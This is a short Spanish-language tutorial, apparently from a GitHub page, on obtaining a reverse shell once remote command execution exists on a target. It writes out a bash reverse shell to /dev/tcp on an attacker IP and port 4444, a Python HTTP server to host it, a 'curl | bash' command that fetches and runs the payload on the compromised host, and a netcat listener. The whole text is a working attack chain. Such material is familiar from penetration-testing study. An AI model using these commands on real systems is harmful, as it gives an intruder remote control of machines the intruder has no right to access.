<h1>Shell Reverse con Python</h1>

1. **Obtención de ejecución remota de comandos:** Este paso implica explotar una vulnerabilidad para obtener acceso remoto al sistema objetivo.

2. **Creación del archivo index.html:** Después de obtener acceso remoto al sistema, creas un archivo llamado `index.html` con el siguiente código:

```
#! /bin/bash

bash -i >& /dev/tcp/<mi ip(del atacante)>/4444 0>&1
```
Este comando crea un archivo index.html con un script de bash que establece una conexión de "reverse shell" hacia tu máquina atacante en el puerto 4444.

3. **Inicio del servidor HTTP:** Para iniciar un servidor HTTP en tu máquina atacante, puedes usar el siguiente comando de Python:

`python -m http.server 80`

Esto iniciará un servidor HTTP en el puerto 80 de tu máquina, que servirá el archivo index.html al sistema comprometido.

4. **Ejecución del comando curl desde el sistema comprometido:** Desde el sistema comprometido, ejecutas el siguiente comando curl para descargar y ejecutar el archivo index.html:

```
curl <mi_ip_del_atacante>:80 | bash
```

Esto descarga el archivo index.html desde tu máquina atacante y lo pasa al comando bash para su ejecución, lo que establecerá la conexión de "reverse shell".

5. **Puesta en escucha con Netcat:** Finalmente, en otra terminal en tu máquina atacante, ejecutas el siguiente comando de Netcat para poner en escucha en el puerto 4444:

```
sudo nc -nlvp 4444
```

Esto hará que Netcat esté en espera de una conexión entrante en el puerto 4444, que será utilizada por el sistema comprometido para establecer la conexión de "reverse shell".

Y listo, con estos pasos debemos tener una reverse shell, ahora sería recomendable hacer un tratamiento de la TTY.
